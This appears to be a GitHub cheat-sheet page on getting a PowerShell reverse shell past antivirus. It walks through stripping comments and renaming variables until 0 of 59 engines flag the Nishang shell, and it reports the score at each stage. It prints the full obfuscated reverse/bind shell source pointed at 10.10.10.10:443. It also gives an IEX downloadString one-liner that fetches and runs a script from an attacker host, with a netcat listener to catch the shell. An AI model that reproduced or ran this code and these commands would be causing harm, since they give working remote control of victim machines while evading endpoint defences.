





# HOW TO PASS UNDER THE RADAR WITH POWERSHELL

## Actual problem:
Nishang Powershell reverse shell is detected by the most AV. After remote commande execution you will be blocked by end point protections.
This article demonstrate how it is possible to manualy reach the 0 detection with 59 AV engines.

### Base line:
Nishang script is a very nice tool and can be used for Reverse or Bind interactive PowerShell from a target.


<center><b>SCORE :20/59</b></center><br>

### STAGE 1
Remove dev comments, change output error, remove link, synopsis, description, example.


<center><b>SCORE :12/59</b></center><br>

### STAGE 2
Change functions names.


<center><b>SCORE: 11/59</b></center><br>

### STAGE 3
Change 50% variables names with random strings.


<center><b>SCORE: 11/59</b></center><br>

### STAGE 4
Change 90% variables names with random strings.


<center><b>SCORE: 3/59</b></center><br>

### STAGE 5
Remove Run as comment, Microsoft motd, change ASCII prompt.


<center><b>SCORE: 1/59</b></center><br>

### STAGE 6
Change 95% variables names with random strings.


<center><b>SCORE: 0/59</b></center><br>


<center><b>Powershell escape is mainly done by changing function names, variable names, developer comments.</b></center>


### <center>FINAL TEST</center>


### <u>POC SOURCE CODE:</u>
```powershell
function Invoke-Shell 
{ 
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $World,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Country,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    try 
    {
        if ($Reverse)
        {
            $dGtrfokiudfjhvnjfe = New-Object System.Net.Sockets.TCPClient($World,$Country)
        }

        if ($Bind)
        {
            $eDDfh987654567 = [System.Net.Sockets.TcpListener]$Country
            $eDDfh987654567.start()    
            $dGtrfokiudfjhvnjfe = $eDDfh987654567.AcceptTcpClient()
        } 

        $zrt54789dvbgH = $dGtrfokiudfjhvnjfe.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        $gfklighloiujGHds = ([text.encoding]::ASCII).GetBytes("Windows PowerShell`nMicrosoft Corporation.`n`n")
        $zrt54789dvbgH.Write($gfklighloiujGHds,0,$gfklighloiujGHds.Length)

        $gfklighloiujGHds = ([text.encoding]::ASCII).GetBytes('$ ' + (Get-Location).Path + '>>')
        $zrt54789dvbgH.Write($gfklighloiujGHds,0,$gfklighloiujGHds.Length)

        while(($i = $zrt54789dvbgH.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                $Poec56fd345 = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something wrong" 
                Write-Error $_
            }
            $GFGFGBbvbgrefdf  = $Poec56fd345 + 'PS ' + (Get-Location).Path + '> '
            $ggh45RedCzIk = ($error[0] | Out-String)
            $error.clear()
            $GFGFGBbvbgrefdf = $GFGFGBbvbgrefdf + $ggh45RedCzIk

            $sendbyte = ([text.encoding]::ASCII).GetBytes($GFGFGBbvbgrefdf)
            $zrt54789dvbgH.Write($sendbyte,0,$sendbyte.Length)
            $zrt54789dvbgH.Flush()  
        }
        $dGtrfokiudfjhvnjfe.Close()
        if ($eDDfh987654567)
        {
            $eDDfh987654567.Stop()
        }
    }
    catch
    {
        Write-Warning "Something wrong!" 
        Write-Error $_
    }
}

Invoke-Shell -Reverse -world 10.10.10.10 -CountrY 443
```

---
### THE ONE PORT DMZ DL/EXEC ISSUE

Sometime it is not possible to work with 2 ports.

- 1 Webserver to wait Powershell incoming downloaded script
- 1 listener to catch the reverse shell.

:information_source: The trick is to add a timestamp in the reverse shell script loaded in memory.


##### MODIFICATION PART:

```powershell
}
---SNIP---
Start-Sleep -s 10
Invoke-Shell -Reverse -world 10.10.10.10 -CountrY 443
```

##### PROCESS
- Open your python webserver on 443
```bash
python -m SimpleHTTPServer 443
```
- Perform your remote command execution
```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://attackerip/revshell.ps1')"
```
- Target server download, load in memory and exec the script
- Stop your server
```bash
Ctrl+C
```
- Open your netcat listener on port 443
```bash
nc -lvnp 443
```
- Wait few seconds
- Get your reverse shell

[<- BACK TO MAIN MENU ->](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md)